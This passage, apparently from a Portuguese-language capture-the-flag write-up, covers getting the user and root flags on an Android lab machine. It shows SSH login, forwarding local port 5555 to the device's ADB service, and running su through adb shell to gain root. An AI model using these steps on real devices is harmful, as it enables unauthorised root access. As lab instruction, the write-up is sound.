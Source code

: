 ```bash
$ ssh kristi@10.10.10.247 -p 2222
Password authentication
Password:
:/ $ cd /sdcard/
:/sdcard $ cat user.txt
<redacted>
```

## Root flag

Agora que temos acesso via SSH nesta máquina, podemos obter acesso root utilizando o ADB shell a partir do redirecionamento da porta do serviço utilizando o SSH, onde redirecionei a porta 5555/TCP da máquina para um listener local, vide comando abaixo a ser executado na máquina do atacante:

```bash
$ ssh kristi@10.10.10.247 -p 2222 -L 5555:127.0.0.1:5555
Password authentication
Password:
:/ $
```

Após conexão, apenas precisei me conectar utilizando o `adb` apontando o endereço para a porta local, que está sendo tunelado pela conexão SSH, onde, para obter privilégios de root, apenas precisei executar o comando `su` para obter acesso como `root`.

```bash
$ adb connect 127.0.0.1:5555
connected to 127.0.0.1:5555
$ adb shell
x86_64:/ $ su
:/ # find / -type f 2> /dev/null | grep root.txt
/data/root.txt
:/ # cat /data/root.txt
<redacted>
```

Espero que tenham gostado!

Vejo vocês no próximo post :smiley:
